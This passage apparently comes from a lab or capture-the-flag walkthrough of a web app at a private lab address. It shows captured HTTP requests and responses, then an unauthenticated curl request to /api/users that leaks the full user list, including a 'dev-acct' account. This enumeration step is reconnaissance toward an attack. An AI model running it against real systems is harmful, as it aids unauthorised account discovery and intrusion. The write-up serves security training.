 When we click on the `Dark` button, we observe the following POST request:

```
POST /api/settings HTTP/1.1
Host: 192.168.120.127
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json
Content-Length: 22
Origin: http://192.168.120.127
Connection: close
Referer: http://192.168.120.127/

{"color-theme":"dark"}
```

The response is as follows:

```
HTTP/1.1 401 Unauthorized
X-Powered-By: Express
Content-Type: text/plain; charset=utf-8
Content-Length: 12
ETag: W/"c-dAuDFQrdjS3hezqxDTNgW7AOlYk"
Date: Mon, 12 Oct 2020 13:01:47 GMT
Connection: close

Unauthorized
```

We’ll take a note of this information and move on.

## Exploitation

### Leaking More Users

Navigating to [**/api/users**](http://192.168.120.127/api/users), we receive the following response:

```
HTTP/1.1 304 Not Modified
X-Powered-By: Express
ETag: W/"44df-Bn+qiRrYHrX450lifQ2et5+YwdY"
Date: Fri, 09 Oct 2020 16:17:56 GMT
Connection: close
```

More importantly, the content includes the application’s entire user list:

```
kali@kali:~$ curl http://192.168.120.127/api/users
["frieda","delia","luisa","clyde","colby","stephanie","marion","fredric","georgina","flora","jonas",
...
"amos","tammy","spencer","elma","graciela","lester","eula","dev-acct","shaun","laurie","cedric","rhea",
...
```
